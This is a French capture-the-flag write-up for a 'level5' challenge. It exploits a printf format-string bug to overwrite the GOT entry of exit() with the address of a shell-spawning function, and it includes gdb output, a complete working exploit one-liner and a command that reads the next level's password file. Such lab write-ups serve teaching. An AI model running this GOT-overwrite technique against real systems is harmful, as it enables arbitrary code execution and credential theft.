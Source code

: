 # level5 - Exploitation de la GOT via Format String

## Analyse du Programme

**Structure**
- Fonction `n()` avec `printf()` vulnérable
- Fonction `o()` avec `system("/bin/sh")` non appelée
- `exit()` appelé après `printf()`

**Adresses Importantes**
- `o()`: `0x080484a4`
- `exit@plt`: `0x80483d0`
- `exit@got.plt`: `0x8049838`
  
```nasm
    (gdb) p exit
    $2 = {<text variable, no debug info>} 0x80483d0 <exit@plt>
    (gdb) p o
    $1 = {<text variable, no debug info>} 0x80484a4 <o>

    (gdb) x/i 0x80483d0
    0x80483d0 <exit@plt>:        jmp    *0x8049838
    (gdb) x/x 0x8049838
    0x8049838 <exit@got.plt>:       0x080483d6
```

## Stratégie d'Exploitation

**Méthode**
- Réécriture de l'entrée GOT de `exit()`
- Redirection vers la fonction `o()`
- Utilisation de `%hn` pour écrire en deux parties

**Calcul des Offsets**
- Premier write: `0x0804` (2052 - 8 = 2044)
- Second write: `0x84a4` (33956 - 2052 = 31904)

## Exploitation

**Commande d'Exploitation**
```bash
(python -c 'print "\x3a\x98\x04\x08" + "\x38\x98\x04\x08" + "%2044d" + "%4$hn" + "%31904d" + "%5$hn"'; cat) | ./level5
```

**Obtention du Flag**
```bash
cat /home/user/level6/.pass
```

Cette exploitation redirige l'appel à `exit()` vers la fonction `o()` en modifiant la GOT, permettant l'exécution du shell.
